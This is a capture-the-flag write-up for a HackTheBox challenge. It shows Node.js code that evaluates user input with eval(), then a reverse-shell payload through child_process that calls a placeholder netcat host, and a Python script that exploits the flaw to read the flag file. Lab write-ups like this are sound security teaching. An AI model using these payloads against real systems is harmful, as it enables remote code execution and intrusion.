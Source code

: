 ## This is my solution to the Insomnia Challenge on HackTheBox

### Issue in the Original Code

The original developer use eval() function on user input which is very dangerous

#### Mistake 

In helpers/calculatorHelper.js:
```
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

The program is using eval function on user_input. We'll tried to exploit it by using that input.
You can find NodeJs RCE Payloads [Here](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44)
I used this one but a little modified for to be compitable with the challenge
```
/?q=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

### Here is my exploit

```python
import requests
from bs4 import BeautifulSoup as bs

url = "http://94.237.62.195:45843"
data = {"formula":"require(\"child_process\").exec(\"cat /flag.txt > /app/static/css/ok.txt\")"}

respond  = requests.post(f"{url}/api/calculate",json=data,headers={"Content-type":"Application/json"})
flag = requests.get(f"{url}/static/css/ok.txt")
print(flag.text.strip())
```

This Python script demonstrates how to exploit the vulnerability and then retrieving the flag.
